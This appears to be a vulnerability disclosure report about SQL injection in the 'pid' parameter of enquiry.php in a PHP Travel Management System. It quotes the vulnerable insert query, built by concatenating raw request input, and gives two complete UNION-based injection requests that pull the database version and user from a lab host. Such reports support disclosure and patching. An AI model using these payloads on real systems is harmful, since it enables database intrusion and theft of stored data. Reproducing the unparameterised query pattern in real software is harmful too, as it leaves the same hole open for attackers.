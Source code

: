 # Travel Management System has sql injection in enquiry.php



## supplier



https://code-projects.org/travel-management-system-using-php-source-code/



## Vulnerability file



/enquiry.php

## describe



Due to the lack of purification or parameterization of PID parameters, attackers can inject malicious SQL code to manipulate database queries. By utilizing the SQL injection technique of UNION query, attackers can use functions such as UNION to directly query the fields required by the database. This can be used to confirm the existence of vulnerabilities and potentially extract sensitive information from the database.

## **Code analysis**

```
<?php
if(isset($_POST["sbmt"]))
{
	$cn=makeconnection();
	$s="insert into enquiry(Packageid,Name,Gender,Mobileno,Email,NoofDays,Child,Adults,Message,Statusfield) values('" . $_REQUEST["pid"] ."','" . $_POST["t1"] ."','" . $_POST["r1"] ."','" . $_POST["t2"] ."','" . $_POST["t3"] ."','" . $_POST["t4"] ."','" . $_POST["t5"] ."','" . $_POST["t6"] ."','" . $_POST["t7"] ."','Pending')";	
	
	
		mysqli_query($cn,$s);
	
	echo "<script>alert('Record Save');</script>";
}
?>
```

## POC1

```
GET /enquiry.php?pid=pid=-8993'+UNION+ALL+SELECT+NULL,version(),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+CVWw HTTP/1.1
Host: 192.168.20.133
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Mobile Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-platform: "Android"
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="125", "Google Chrome";v="125"
sec-ch-ua-mobile: ?1
Connection: keep-alive
```

(cve/Travel Management System/image-20250104133254893.png)

## POC2

```
GET /enquiry.php?pid=pid=-8993'+UNION+ALL+SELECT+NULL,user(),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+CVWw HTTP/1.1
Host: 192.168.20.133
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Mobile Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-platform: "Android"
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="125", "Google Chrome";v="125"
sec-ch-ua-mobile: ?1
Connection: keep-alive


```

![image-20250104133602150](E:\work\me\cve\cve\Travel Management System\image-20250104133602150.png)

![image-20250104133733397](E:\work\me\cve\cve\Travel Management System\image-20250104133733397.png)
